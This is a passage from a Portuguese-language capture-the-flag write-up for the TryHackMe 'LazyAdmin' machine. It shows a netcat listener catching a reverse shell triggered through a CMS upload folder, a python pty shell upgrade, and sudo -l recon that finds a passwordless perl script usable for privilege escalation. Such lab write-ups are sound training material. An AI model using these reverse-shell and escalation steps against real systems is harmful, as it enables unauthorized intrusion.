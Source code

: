 Antes de qualquer coisa temos que abrir uma sessão no nosso computador para receber a conexão da reverse shell e para isso vamos utilizar o `netcat`.

```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~/Desktop/Try_Hack_Me/LazyAdmin                                                                             20:41:02
╰──➤ nc -nvlp 1234
listening on [any] 1234 ...
```

Agora para executar o payload vamos acessar a página `/content/inc/ads/` que é onde o CMS salva os arquivos que são inseridos no módulo `Ads`. Basta clicar no arquivo que acabamos de criar para que ele seja executado e a nossa reverse shell seja aberta.

```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~/Desktop/Try_Hack_Me/LazyAdmin                                                                             20:41:02
╰──➤ nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.18.20.23] from (UNKNOWN) [10.10.133.59] 52548
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 01:48:39 up 42 min,  0 users,  load average: 0.00, 0.00, 0.09
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```
---

## **<a id="3"> • Escalação de Privilégio Vertical.</a>**

Primeiramente para melhorar a nossa experiência de usuário vamos utilizar o comando `python -c 'import pty; pty.spawn("/bin/bash")'` para que possamos utilizar o bash como se estivéssemos em um terminal.

```bash
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@THM-Chal:/$
```

Então agora vamos procurar por arquivos que nós ajudem a encontrar uma forma de escalar privilégio. Usando o comando `Sudo -l` podemos ver quais arquivos o usuário `www-data` pode executar com o comando `sudo`.

```bash
www-data@THM-Chal:/$ sudo -l
sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```
